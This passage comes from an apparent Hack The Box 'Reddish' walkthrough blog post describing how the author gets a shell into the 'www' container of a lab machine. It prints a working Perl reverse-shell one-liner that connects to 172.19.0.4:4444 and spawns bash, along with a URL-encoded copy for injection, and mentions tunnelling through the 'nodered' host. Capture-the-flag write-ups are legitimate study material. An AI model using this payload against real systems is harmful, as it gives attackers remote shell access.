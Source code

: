 <a class="image-popup">
![3f606a3a.png](/assets/images/posts/reddish-htb-walkthrough/3f606a3a.png)
</a>

Awesome. It works!

<a class="image-popup">
![9c96e133.png](/assets/images/posts/reddish-htb-walkthrough/9c96e133.png)
</a>

I prefer to use Perl as the reverse shell because it's always available, even in containers. :grin:

Before we do that, we need to set up another a TCP tunnel between `nodered` and my attacking machine to facilitate data shuffling between the `www` container and my attacking machine.

<a class="image-popup">
![66ad6a7b.png](/assets/images/posts/reddish-htb-walkthrough/66ad6a7b.png)
</a>

This is how the Perl reverse shell looks like before URL encoding:

```
perl -e 'use Socket;$i="172.19.0.4";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

Encode it to prevent complications.

```
perl%20-e%20%27use%20Socket%3B%24i%3D%22172.19.0.4%22%3B%24p%3D4444%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fbash%20-i%22%29%3B%7D%3B%27
```

We have shell into `www`!

<a class="image-popup">
![93b832f1.png](/assets/images/posts/reddish-htb-walkthrough/93b832f1.png)
</a>
